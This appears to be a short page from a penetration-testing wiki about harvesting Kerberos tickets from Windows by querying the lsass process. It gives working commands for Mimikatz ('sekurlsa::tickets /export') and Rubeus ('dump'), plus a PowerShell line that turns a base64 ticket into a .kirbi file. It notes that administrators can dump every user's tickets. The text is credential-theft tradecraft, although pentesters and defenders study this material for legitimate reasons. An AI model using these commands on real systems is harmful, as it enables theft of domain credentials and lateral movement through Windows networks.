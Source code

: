# Harvesting tickets from Windows

In Windows, tickets are **handled and stored by the lsass** \(Local Security Authority Subsystem Service\) process, which is responsible for security. Hence, to retrieve tickets from a Windows system, it is necessary to **communicate with lsass and ask for them**. As a **non-administrative user only owned tickets can be fetched**, however, as machine **administrator**, **all** of them can be harvested. For this purpose, the tools **Mimikatz or Rubeus** can be used as shown below:

```
mimikatz # sekurlsa::tickets /export
.\Rubeus dump
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```

**This information was taken from:** [**https://www.tarlogic.com/en/blog/how-to-attack-kerberos/**](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)**​**[  
](https://app.gitbook.com/@cpol/s/hacktricks/~/drafts/-LhAFG7vZpkSqhe9Wmev/primary/todo/pentesting-kerberos-88/harvesting-tickets-from-windows)

